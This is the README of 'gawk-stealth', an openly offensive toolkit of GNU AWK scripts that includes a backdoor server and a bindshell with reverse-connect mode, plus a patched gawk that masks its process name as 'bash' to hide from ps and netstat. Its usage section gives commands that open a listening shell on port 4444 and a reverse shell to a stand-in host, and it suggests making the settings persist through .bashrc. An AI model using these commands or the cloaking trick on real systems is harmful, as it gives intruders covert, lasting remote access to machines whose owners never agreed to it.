 [gawk-stealth](http://gitbrew.org/gawk)  
========================================
##Copyright (C) 2012-2013 Iadnah [<iadnah@uplinklounge.com>](mailto:iadnah@uplinklounge.com)  
##gawk-stealth is distributed under the GNU GPL  
  
  
###SYNOPSIS  
  
Gawk-Stealth consists of two parts: a set of scripts that can be run from within GNU AWK (using the -f option), and a statically linked 32-bit version of GNU AWK that is patched with our Romulan Cloaking technology.  
  
The scripts included in gawk-stealth are:  
* banner_grab.gawk - simple awk banner grabber
* banner_grab_pastable.gawk - one-line pastable version of the banner grabber
* gawk_get.gawk - script to make an HTTP (no HTTPS) request and dump output to STDOUT
* gawk_http_bnc.gawk - Listens on a port and when a connection is made to it, performs an HTTP request as configured and redirects output to connecting host
* gawkserv.gawk - Very simple POC backdoor server
* rgawkcmd-0.2.gawk - Full-featured bindshell with listen, reverse-connect, and authentication options
  
###COMPILING gawk32.static    
  
To compile, untar the version of gawk in static_gawk, apply the gawk-3.1.8_gawkhide.patch, and compile using the makestatic script.  
  
###SAMPLE USES  
  
The main script of interest is rgawkcmd-0.2.gawk.  When using it, the most important thing to keep in mind is that options are set using environmental variables.  In bash, you may set these with the export command, or to make more persistent you can add the env vars to .bashrc in the home directory.  

To make a listening bindshell with rgawkcmd-0.2.gawk, issue the following commands:  

	$ export RGC_LPORT=4444
	$ export RGC_MODE="listen"
	$ gawk -f rgawkcmd-0.2.gawk

This will open up a listening bindshell on port 4444.  To do a reverse bindshell, you would enter:  

	$ export RGC_MODE="remote"
	$ export RGC_RPORT=4444
	$ export RGC_HOST="totallylegitimate.nationalbankofuganda.com"
	$ gawk -f rgawkcmd-0.2.gawk
	
###ROMULAN CLOAKING TECHNOLOGY

In order to turn on Romulan Cloaking Device (reverse engineered by CDR Data from a Romulan Warbird captured by CPT Jean-Luc Picard), set GAWK_HIDE to anything but NULL.  Example:  

	$ export GAWK_HIDE=1
	
This changes argv[0] to read "bash" (for ps and netstat purposes).  
NOTE: this requires you use patched version of GNU AWK included with this package.  

##LICENSE  
gawk-stealth Copyright (C) 2012 Iadnah iadnah@gitbrew.org

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, write to the Free Software Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

See the COPYING file for more information.

---
Iadnah [<iadnah@guplinklounge.com>](mailto:iadnah@uplinklounge.com)
